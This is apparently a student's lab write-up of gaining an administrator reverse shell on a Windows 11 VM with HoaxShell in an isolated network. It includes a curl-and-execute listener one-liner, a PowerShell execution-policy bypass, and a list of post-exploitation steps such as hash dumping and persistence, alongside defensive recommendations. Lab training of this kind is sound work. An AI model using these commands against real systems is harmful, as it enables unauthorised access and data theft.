




# Reverse Shell & Meterpreter Session Lab

Date: 2026-08-16
Attacker Machine: Parrot OS (10.10.1.13)
Target: Windows 11 (10.10.1.11)
Tools: HoaxShell, MSFVenom, Metasploit, Revshells.com
Environment: VMware isolated lab network

---

## Objective
Generate a reverse shell payload, deliver it to a Windows 11
target, and gain remote access as Administrator using
HoaxShell (PowerShell over HTTP).

---

## What is a Reverse Shell?
A reverse shell is a technique where the target machine
initiates a connection back to the attacker machine.
This bypasses firewall rules that block incoming connections.

The attack flow:
1. Attacker sets up a listener
2. Payload is delivered to the target
3. Target executes the payload
4. Target connects back to attacker
5. Attacker receives an interactive shell

---

## Step 1 — Generate HoaxShell Payload

HoaxShell generated an obfuscated PowerShell payload
saved as shell.ps2 and inspected in Pluma.

---

## Step 2 — Start Listener on Parrot OS

Port 444 was in use so it was cleared first:

    sudo fuser -k 444/tcp

    python3 -c "$(curl -s https://raw.githubusercontent.com/t3l3machus/hoaxshell/main/revshells/hoaxshell-listener.py)" -t ps-iex -p 444

### Output

    [Info]  Http listener started on port 444.
    [Important] Awaiting payload execution...
    [Shell] Session established!
    [Shell] Stabilizing command prompt...

---

## Step 3 — Bypass Execution Policy on Target

Script execution was disabled on Windows 11 by default.
Bypassed using:

    powershell -ExecutionPolicy Bypass -File .\shell.ps1

---

## Step 4 — Post Exploitation

Shell session received on attacker machine.
Identity confirmed:

    PS C:\Users\Admin\Desktop> whoami
    windows_11\admin

---

## Attack Summary

| Step | Action | Result |
|------|--------|--------|
| 1 | HoaxShell payload generated | shell.ps2 created |
| 2 | Listener started on port 444 | Awaiting connection |
| 3 | Execution policy bypassed | Payload executed |
| 4 | Shell session established | PS C:\Users\Admin\Desktop> |
| 5 | whoami executed | windows_11\admin confirmed |

---

## Critical Findings

| Finding | Detail | Impact |
|---------|--------|--------|
| Admin access gained | windows_11\admin | CRITICAL |
| Fileless delivery | No .exe dropped on disk | CRITICAL |
| No AV detection | Payload executed successfully | HIGH |
| Execution policy bypass | Default defense bypassed | HIGH |
| Reverse connection | Bypassed firewall rules | HIGH |

---

## What Can Be Done With This Access

With a shell session as Admin:
- Dump password hashes
- Enable persistent backdoor
- Pivot to other machines on the network
- Exfiltrate sensitive files
- Disable Windows Defender
- Take screenshots and keylog
- Escalate to SYSTEM privileges

---

## Lessons Learned

1. HoaxShell delivers a reverse shell over HTTP making it
   harder to detect than raw TCP
2. Fileless payloads run in memory leaving no disk traces
3. PowerShell execution policy is not a security boundary
4. Reverse shells bypass most inbound firewall rules
5. Admin execution of a malicious script gives immediate
   privileged access

---

## Defensive Recommendations

- Enable PowerShell Constrained Language Mode
- Enable Script Block Logging to detect IEX abuse
- Implement application whitelisting
- Monitor outbound traffic on non-standard ports
- Deploy EDR with behavioral detection
- Train users never to run unknown scripts or files
- Configure Windows Defender ASR rules

---

## Tools Used
- HoaxShell (t3l3machus)
- MSFVenom (Metasploit Framework)
- Metasploit multi/handler
- Revshells.com
- Parrot Security OS

---

## Next Steps
- Run hashdump to extract password hashes
- Establish persistence on target
- Pivot to other machines on the network
- Attempt privilege escalation to SYSTEM
